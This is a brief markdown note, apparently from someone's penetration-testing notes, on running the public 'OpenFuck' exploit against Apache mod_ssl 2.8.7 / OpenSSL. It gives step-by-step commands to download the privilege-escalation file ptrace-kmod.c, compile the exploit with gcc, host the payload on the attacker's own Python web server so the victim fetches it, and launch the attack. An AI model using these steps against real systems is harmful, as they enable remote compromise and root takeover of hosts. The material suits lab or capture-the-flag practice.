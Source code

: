 # Mod SSL 2.8.7 OpenSSL Exploit (openfu*kV2.c) 
<p>
source: https://www.exploit-db.com/exploits/764
source: 

Edit exploit code to comment out `#COMMAND2` variable, which is the command to download `ptrace-kmod.c`. Since the url included in this exploit is not valid, we will download the file seperately and host it on our own webserver.

```bash
#download ptrace-kmod.c
wget https://www.exploit-db.com/download/3
```

Usage:
1. compile code
```bash
gcc -o openfuck openfuckV2.c -lcrypto
```

if you encounter missing ld error while compiling at victim machine, try checking your $PATH and make sure it is pointing to the 'ld' file.

2. In your `ptrace-kmod.c` directory start webserver
`python -m SimpleHTTPServer 80`

3. In victim machine `.\openfuck`